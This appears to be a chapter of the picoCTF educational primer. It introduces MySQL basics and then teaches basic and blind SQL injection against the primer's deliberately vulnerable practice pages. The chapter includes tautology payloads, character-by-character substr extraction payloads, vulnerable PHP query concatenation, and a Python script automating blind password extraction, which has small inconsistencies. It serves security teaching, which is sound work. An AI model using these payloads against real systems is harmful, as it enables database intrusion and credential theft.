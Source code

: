 
== Infiltrating in a database 

=== SQL

SQL is used to create and manipulate a very common type of databases called relational databases. SQL stands for Structured Query Language. With it you can create tables in a database, store data on them, and run different queries that let you extract and analyze data. We are going to see some examples in a relational database management system (RDBMS) called MySQL. Once you learn the basics of SQL in any RDBMS, it is easy to apply them in others. We are going to see a very quick introduction so you are able to understand the hacks. Let's begin.

As we said, information is stored in tables. The following is an example of a table that we might call "user":

[cols=",,,,",options="header",]
|===
|*Id* |*Name* |*Last Name* |*Phone* |*Password*
|1 |Jane |Doe |200 111 1111 |123456
|2 |Arpit |Gupta |200 111 1111 |hello
|3 |Melania |Clinton |201 333 3333 |password
|===

NOTE: The passwords in this table are just an example. In real life, you should never store the password directly in the database, as you will learn in the crypto section. Additionally, you should never use a password like those, they are too weak.

There are several online tools that you can easily find on Google to learn languages. For example, access the following web site:

https://paiza.io/en/projects/new?language=mysql[https://paiza.io/en/projects/new?language=mysql, window="_blank"]

We can execute MySQL statements online. So, let's create our table from the previous example on it. First, delete the code present in the editor. You should be seeing something like this:

[.text-center]
.Online MySQL engine
image::images/3image7.png[image,width=624,height=552]

Now, you can create the table using the following statement:

create table user (id integer, name text, lastname text, phone text, password text);

Analyze the statement carefully. This statement creates a table called "user" with three columns. The first column is "id", and has the data type int, which means integer. The other columns are "name", "lastname", and "phone", which are of datatype text. In datatype integer, as you might guess, you can only store integers. In a datatype text, you can store strings. Put that statement in the SQL editor and hit the button "Run". If it was successful, you will see a green bar on top of the editor with the label "success". When you create tables in SQL, they are stored and become available to insert future data on them. However, in this online editor tables just survive in a single run, so in the same script we will have to create the table, insert the data, and query the data.

So far we have created the table but it is empty. To insert a row, add the following statement:

insert into user (id, name, lastname, phone, password) values (1, 'Jane', 'Doe', '200 111 1111', '123456');

As you can see, the statement is self explanatory. It will insert each of those values in each column of user conforming a new row. Hit run, and verify it was successful. It should look like this:

[.text-center]
.Create table and insert
image::images/3image16.png[image,width=624,height=46]

Now, add the following line that will query the data you have inserted so far:

Select * from user;

The * means that you want to see the content of all the columns. Hit Run.

[.text-center]
.Query data by running select sentence
image::images/3image12.png[image,width=624,height=146]

You can see the results at the end. Now insert the two rows missing to conform our 3 row table:

[.text-center]
.Inserting the rows missing
image::images/3image24.png[image,width=624,height=177]

If you are interested in returning only some particular columns, you can list them instead of using the *. For example, let's return only the name and lastname:

select name, lastname from user;

You will see:

[.text-center]
.Querying only full name
image::images/3image10.png[image,width=624,height=154]

We can make our query more granular if we add a "where" clause like this:

select * from user *where id=2*;

Look at the query carefully. We already know that the * means we want to see the content of every column. In the 'where' clause we restrict which rows we want to return. What row do you think is going to return that query?

If you thought about this row:

[cols=",,,,",]
|===
|2 |Arpit |Gupta |200 111 1111 |hello
|===

You were right. That is because that row is the one with the value of 2 in its id. You could filter by any other field. If you are filtering a field of type text, you have to put the value enclosed single quotes. Remove the previous select statement, and add:

select * from user where phone='200 111 1111' ;

You should be seeing the following:

[.text-center]
.Filtering by a specific phone number
image::images/3image21.png[image,width=624,height=60]

Run it. If you look at the rows inserted. 'Jone Doe' had the same phone number as 'Arpit Gupta'. The select statement should return 2 rows like this:

[.text-center]
.Result of filtering by a specific phone number
image::images/3image9.png[image,width=624,height=174]

We can also filter by two fields in the same query using the logical operators 'and' in the following manner:

select * from user where phone='200 111 1111' and name='Jane';

After the "where" clause, you can put several boolean expressions. As you learned previously in the programming chapter, when you use "and" it means that both expressions have to be true so the expression is true. The query should return this:

[.text-center]
.Result of filtering by a specific phone number and name
image::images/3image3.png[image,width=624,height=172]

Now, add another 'and' operator, to try to filter using a name that does not exist in the table:

select * from user where phone='200 111 1111' and name='Jane' and name='Mario';

The query should return no results, because 'Mario' does not exist in our database:

[.text-center]
.Filtering by a name that is not present in the data we inserted
image::images/3image29.png[image,width=624,height=124]

Now, as an experiment add another filter, but this time use "or" instead of "and". For example, run:

select * from user where phone='200 111 1111' and name='Mario' or name='Arpit';

You will see:

[.text-center]
.Filtering by two different names using OR
image::images/3image19.png[image,width=624,height=138]

What happened here? Analyze the query carefully. You know there is no one called Mario in our table. Why in the world the query return a row? If you think about it, any expression, no matter how long it is, if results in False, but then you do "or" with something that is true, it will be true. For example:

1=2 and 3=2 and 47=1 or 1=1

Will be true, because (1=2 and 3=5 and 45=1) is false, but (1=1) is true. This is fundamental for the basic SQL injection attack.

Try the following:

select * from user where phone='200 111 1111' and name='Mario' *or 1=1*;

[.text-center]
.Result of filtering by something specific but using OR with something that is always true
image::images/3image20.png[image,width=624,height=148]

You just returned all the results! That happens, as you might guess, because "1=1" is always true. As an exercise, create a new table with new data and create new queries.

=== Basic SQL injection

The objective of the basic SQL injection we are learning, is trying to inject an "or" expression that is always true. In that way the server code constructs a query using the user input that deceives the program into it returning the whole table. That happens, when a program is concatenating string to construct a query in the server code. The following is an example in PHP:

"[lime]#SELECT * FROM user where name='#".$name.""[lime]#' and password='#".$password.""[lime]#';#"

The red part of the query, will be concatenated with the value of the variables to conform the final query. Let's suppose that $name is equal to "samuel", and $password is equal to "hello", the query would result in

SELECT * FROM user where name='samuel' and password='hello';

What would happen if the password contains a single quote? That might break the syntax of the SQL query. Even worse, it could be used to inject your own sql. For example, if the value of $password is:

*' or '1'='1*

The resultant query would be:

[lime]#SELECT * FROM user where name='samuel' and password='#' *or '1'='1*[lime]#';#

Which is a perfectly valid query that will return the whole table. Use what you just learn here to return all the users:

https://primer.picoctf.org/vuln/web/basicsql.php[https://primer.picoctf.org/vuln/web/basicsql.php, window="_blank"]


This kind of vulnerability it is rarely present in applications. One that is more common, is the blind sql injection.

=== Blind SQL injection

In this kind of vulnerability, the application does not return all the data to you. However, it is enough that the application shows an error message saying that no data was found or that an error has occurred, to figure out the content we are looking for.

To illustrate this, we are going to attack the following page:

https://primer.picoctf.org/vuln/web/blindsql.php[https://primer.picoctf.org/vuln/web/blindsql.php, window="_blank"]

If we input our previous injection in the password field:

*' or '1'='1*

We will see that the application found something and shows the message "REGISTER FOUND":

[.text-center]
.Blind SQL injection
image::images/3image28.png[image,width=624,height=205]

Internally, the injection deceives the application into returning records, but the application did not show us those records. That's why it is called Blind SQL injection. We can inject SQL, but we cannot see the result!

What can we do about this? We are will try to inject a SQL to guess one character of a field at a time. Suppose we want to guess the first character of the password. If we don't guess it, the application will return "NOTHING FOUND". If we guess it, it will return "REGISTER FOUND".

Note, this is fundamental to be able to guess only one character at a time. Trying to guess a whole string at the same time, is much harder. Suppose a word is made up by a combination of the 26 characters of the alphabet. To guess only the first letter, we only have to try 26 values. However, if we try to guess the whole word, is much more complicated. To illustrate this, suppose we have a word of two letters. If we can guess one at a time, we will need at most 26 trials for the first one, and 26 trials for the second one, for a total of 52 trials. On the other hand, if we try to guess both letters at a time, we will need 26*26 trials, which is 626 trials, because they can have different combinations. If we add more characters, guessing the whole word becomes much harder because it would emerge too many possible words. Nonetheless, guessing one letter at a time, will keep being only 26 trials for each letter. The blind SQL injection is based on that fact, it will try to inject a query that only compares one character at a time.

To be able to do that, you need to know the name of the column you are trying to guess. This is not that hard, because in many cases you can infer the name of the database column based on the name of the html input. In other cases, you can leak the name if an error occurs inside the application, and in the error message the application shows the value of the columns.

For the page we are attacking in this example the names are the same as the html input. One column is called 'name', and the other one is called 'password'.

So far, you know that if you inject:

*' or '1'='1*

It will return results, but you are not learning any information. We know two column names, 'username' and password. For this example, suppose you know a user called 'picoctf' and you to get the password from that user. To narrow down the query to the row in which the user 'picoctf' information is stored, you could use:

*' or username='picoctf*

Note that we do not use the *'1'='1* anymore because we want a statement that will filter only one user. If you inject this on the password field from the web page, you will still see:

[.text-center]
.Register found after injection
image::images/3image14.png[image,width=624,height=130]

Remember that in our injection, if the part at the right of the "or" is true, it will return results. It is true that username is equal to 'picoctf' only in the row on the picoctf!

Now we will add the part that compares the first character of the password. We can do that using an embedded query. An embedded query is a query inside a query. Our embedded query highlighted in red, will simply return the first character of the password. We will compare that first character with the character 'a', so we are guessing that the first character is 'a':

*' or username='picoctf' and [lime]#(select substr(password, 1, 1))#='a*

If you inject this, you will see that nothing is found:

[.text-center]
.Nothing found after comparing with single character
image::images/3image8.png[image,width=624,height=206]

This is because we did not guess the first character. If you keep trying different characters, you will find that the first character of the password is 'f', when you inject this:

*' or username='picoctf' and [lime]#(select substr(password, 1, 1))#='f*

And see as a result this:

[.text-center]
.Register found after comparing with single character
image::images/3image5.png[image,width=624,height=185]

You could possibly find the whole password manually, but it would take too much effort. On the other hand, you may want to obtain all the passwords in the database, or even all the fields from the database! This same process can be applied for any field… In most of the SQL engines there is a system table that contains the names of all tables and columns, so once we find a SQL injections databases we might be able to leak the whole database. For this exercise we will only obtain one password. To be more efficient, we will write a python script that does the job for us. Suppose we found the name of the table in some way. The script is the following:

[source, python]
import requests
from string import printable
accum = ""
for i in range(40):
  for letter in printable:
    accum += letter
    r = requests.post("https://primer.picoctf.org/vuln/web/blindsql.php?&username=WeDontCare&password=' or '"
    + letter+"'=( select substr(binary password,"+str(i)+",1) from pico_blind_injection where id=1 ) and ''= '")
    if 'NOTHING FOUND...' in r.text:
      accum = accum[:-1]
      print("nope")
    else:
      print(f"We found the character: {letter}")
print(accum)


This script is just one of the many ways in which a blind SQL injection is done. With your knowledge of Python and SQL, you should be able to understand the script if you read it carefully. Note the following:

* 'Printable' is just a string with all the printable ASCII characters, and we iterate over them.

* 'Binary' in mysql context, is just a way to specify the we want to make case sensitive comparisons. If we do not use it, we would not be able to identify if a character is lowercase or uppercase.

* We are sending GET parameters to the web site. For this reason, we can encode them in the URL.

* We put the *select '* at the end of the query to handle the closing single quote.

* 'NOTHING FOUND...' Is the message printed in the html, so if that is present in the html

* To clear your doubts, experiment in the SQL editor with similar queries, or do prints on the python script to make sure you understand every part of it.

Depending on the SQL engine, there can be several ways to inject SQL. Even Frameworks that handle the queries for you, might have vulnerabilities in some versions, or because they are used incorrectly by developers.

Keep up the good work!